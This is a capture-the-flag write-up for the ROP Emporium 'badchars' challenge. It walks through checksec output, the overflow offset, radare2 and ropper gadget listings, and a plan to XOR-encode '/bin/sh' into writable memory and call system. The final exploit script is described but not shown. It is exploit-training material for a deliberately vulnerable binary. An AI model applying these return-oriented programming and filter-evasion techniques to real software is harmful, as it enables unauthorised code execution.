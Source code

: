 # badchars from ROP Emporium 

An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.

## Tools Used 

- radare2 
- pwndbg
- pwntools
- ropper 

### Initial exploration

Unlike the picoCTFs, ROP Emporium(ROPE) does not give you the source code for their challenges. However, we do know that we are going to need to ROP around the program and find a way to either pop a shell so that we can read the flag, or find a way to get the program to print the flag for us. We should always start out with checking the security on the file and then running it to see what kind of output we get. 

So checksec yields: 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

So we know that we can's just spray shellcode onto the stack since NX is enabled, we don't have to worry about getting around a canary if we can overflow a buffer, we should be able to find a place in memory to write to if we need to since we only have partial RELRO, and our addresses shouldn't move around on us since PIE is turned off. 

Next if we run the program we get:
```
badchars by ROP Emporium
64bits

badchars are: b i c / <space> f n s
> AAAA

Exiting
```

So it looks like we can't write "b i c / <space> f n s" in our input, which will make /bin/sh, /bin/cat, or flag pretty hard to input. We will either have to find what we need inside our code or think of a different way to exploit the code. 

The only thing left to do is to see if we can crash the program with too much input:
```
Monty$ python -c "print('A'*1000)" | ./badchars 
badchars by ROP Emporium
64bits

badchars are: b i c / <space> f n s
> Segmentation fault (core dumped)
```

So it seems we will be able to work with the stack to ROP around easily. Next we will break open the binary to see where we can go. 

### Exploitable piece of code

First I like to find out how much I have to feed the program before I start overwriting the eip, so I have script that creates arbitrarily long strings of the alphabet repeating that I can feed programs to see where it crashes. My strings look like "AAAAAAAABBBBBBBBCCCCCCCC....", and I can feed this into gdb and see what we are trying to return to.

pwndbg shows us:
```
$ gdb badchars
$ run < alpha
 RBP  0x4545454545454545 ('EEEEEEEE')
 RSP  0x7fffffffdfa8 ◂— 0x4646464646464646 ('FFFFFFFF')
 RIP  0x4009de (pwnme+233) ◂— ret    
───────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x4009de <pwnme+233>    ret    <0x4646464646464646>
```
So we are trying to return in the F's spot, so I can count that up and see that we need 40 bytes to overwrite our return address. 

Next we can start exploring the code by listing all of the functions that radare2 can find. 

The commands and useful output that is yielded is:
```
$ r2 badchars
$ aaaa
$ aaf
$ afl
0x004008f5    4 234          sym.pwnme
0x004009f0    7 80           sym.nstrlen
0x00400a40    9 158          sym.checkBadchars
0x004009df    1 17           sym.usefulFunction
0x00400b30    1 4            loc.usefulGadgets
0x004006f0    1 6            sym.imp.system
$ s sym.imp.system 
$ pdf 
CALL XREF from sym.usefulFunction @ 0x4009e8
```

if we set r2 to main and follow some of these functions we see that main calls pwnme, pwnme calls fgets which is where we will enter our input, afterwards nstrlen checks that our input is less than 0x200 bytes long, returns to pwnme, pwnme calls checkBadchars,  it checks to ensure you haven't added any bad characters, returns to pwnme, and pwnme tries to return to main, but if we do our job right we should be able to start our ROPchain here. Now we just need to figure out where we are going to go. 

The first thing we can realize is that we have a call to system in our code, so if we have a useful string like /bin/sh or cat in our binary we may be able to easily just call system with that string and win. However, we don't seem to have any of those strings after searching using objdump, radare2, and strings. So now we need to see if we have anywhere in our binary that we can write to where we can store our string.

If we run gdb and check the virtual memory pages we will see:
```
$ gdb badchars
$ start
$ vmmap
 Data : 0x601000           0x602000  rw-p
```

So we know that we have a call to system(), we have a place that we can write our string to, and that we can't write certain characters into our ROPchain. Now we just need to exploit this. 

### How are we going to exploit it?

Now that we have decided to write our string to memory and try to call system to run it, we need to start looking for some ROP gadgets that can get us there. We are also given a hint by ROPE that we may be able to use xor to help us out in some way. If you understand XOR then you know that when you xor a value with a key then you will be able to get back to the original value by xor'ing the output with the key again. So for this exploit we will need to create an xor'ed string that we can write to memory, write it to memory, xor that string to bring it back to it's original value, and then call system. Since we were given two functions labled "useful" then we may as well disassemble them and see if there is anything in them that we can use. 

So using radare2 again we can see: 
```
$ aaaa
$ aaf
$ s sym.usefulFunction
$ pdf
0x004009df      55             push rbp
0x004009e0      4889e5         mov rbp, rsp
0x004009e3      bf2f0c4000     mov edi, str.bin_ls         ; 0x400c2f ; "/bin/ls" ; const char *string
0x004009e8      e803fdffff     call sym.imp.system         ; int system(const char *string)
0x004009ed      90             nop
0x004009ee      5d             pop rbp
0x004009ef      c3             ret

$ s loc.usefulGadgets
$ pdf
0x00400b30      453037         xor byte [r15], r14b
0x00400b33      c3             ret
```

So just from those two functions we have our system gadget and our xor gadget. So  now we can use ropper to find some good pop and mov gadgets. 
```
$ ropper --file badchars --search mov
...
0x0000000000400b34: mov qword ptr [r13], r12; ret; 
...
$ ropper --file badchars --search pop
...
0x0000000000400b42: pop r15; ret; 
0x0000000000400b40: pop r14; pop r15; ret; 
0x0000000000400b3b: pop r12; pop r13; ret; 
0x0000000000400b39: pop rdi; ret; 
...
```

I picked these gadgets to show because for our xor and mov gadgets we need matching pop calls and a rdi pop for our call to system. 

So with these gadgets and our initial 40 bytes that we need to overwrite the return address, we will be able to write our xor'ed string to the start of data's memory, xor it once it's in memory to get it back to where we want it, and then pop the address for our string into rdi and call system. 

### The exploit

I have written a python script "solve.py" that will xor "/bin/sh", add a null byte to the end, create all of our needed gadgets, combine them into the necessary payload, then send them to the running process and create an interactive shell. Enjoy the completed challenge and read that flag.txt